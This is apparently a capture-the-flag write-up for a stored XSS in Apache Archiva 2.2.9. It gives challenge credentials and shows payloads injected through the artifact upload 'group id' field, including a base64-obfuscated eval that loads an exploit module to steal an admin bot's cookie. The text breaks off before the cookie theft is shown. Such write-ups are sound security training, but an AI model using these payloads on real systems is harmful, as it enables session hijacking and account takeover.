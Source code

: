 
Apache Archiva is a repository management software that helps us to take care of our personal as well as enterprise build repository.
Here we are using the version 2.2.9
We can login as a normal user using the credentials:
user: ctf
pass: H4v3Fun

As there is a server and an admin bot, this challenge can probably be an xss challenge
Looking at the source code, we can see that the admin visits, /repository/internal. So, we should try to make an entry to this page, but a normal user has very less privileges.
So, there is an upload functionality here, (in upload artifact). So, this page allows to upload a file to already existing repository.

Lets try giving a simple alert(1) payload to see if we have xss:
repo id: internal
group id : <img src=a onerror=alert(1)>
artifact: 1
version: 1
packaging : 1
upload a random file: then save.
Go to http://localhost:8055/repository/internal/ we can see we have xss

Now our goal is to steal the admin cookie and get the admin privileges which has lot more functionalitites like creating a repository.

x"><img%20src="x"%20onerror="javascript:eval(atob('aW1wb3J0KCIuL2V4cGxvaXQuanMiKS50aGVuKHM9PntzLnJ1bigibG9jYWxob3N0IjgwNTUiKX0pOw=='))">
aW1wb3J0KCIuL2V4cGxvaXQuanMiKS50aGVuKHM9PntzLnJ1bigibG9jYWxob3N0IjgwNTUiKX0pOw==
